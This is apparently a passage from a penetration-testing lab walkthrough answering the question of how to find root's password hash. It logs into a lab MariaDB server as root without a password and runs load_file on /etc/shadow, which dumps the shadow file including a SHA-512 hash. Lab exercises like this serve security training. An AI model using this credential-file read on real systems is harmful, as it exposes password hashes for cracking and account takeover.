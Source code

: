 ```bash
```

> 8. Find the system password hash for user "root".

Answer: `S1eBFuRRxwD7qEcUIjHxV7Rkj9OXaIGbIOiHsjPZF2uGmGBjRQ3rrQY3/6M.fWHRBHRntsKhgqnClY2.KC.vA/`

```bash
root@attackdefense:~# mysql -h 192.15.56.3 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 50
Server version: 5.5.62-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> select load_file("/etc/shadow");
+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| load_file("/etc/shadow")                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| root:$6$eoOI5IAu$S1eBFuRRxwD7qEcUIjHxV7Rkj9OXaIGbIOiHsjPZF2uGmGBjRQ3rrQY3/6M.fWHRBHRntsKhgqnClY2.KC.vA/:17861:0:99999:7:::
daemon:*:17850:0:99999:7:::
bin:*:17850:0:99999:7:::
sys:*:17850:0:99999:7:::
sync:*:17850:0:99999:7:::
games:*:17850:0:99999:7:::
man:*:17850:0:99999:7:::
lp:*:17850:0:99999:7:::
mail:*:17850:0:99999:7:::
news:*:17850:0:99999:7:::
uucp:*:17850:0:99999:7:::
proxy:*:17850:0:99999:7:::
www-data:*:17850:0:99999:7:::
backup:*:17850:0:99999:7:::
list:*:17850:0:99999:7:::
irc:*:17850:0:99999:7:::
gnats:*:17850:0:99999:7:::
nobody:*:17850:0:99999:7:::
libuuid:!:17850:0:99999:7:::
syslog:*:17850:0:99999:7:::
mysql:!:17857:0:99999:7:::
```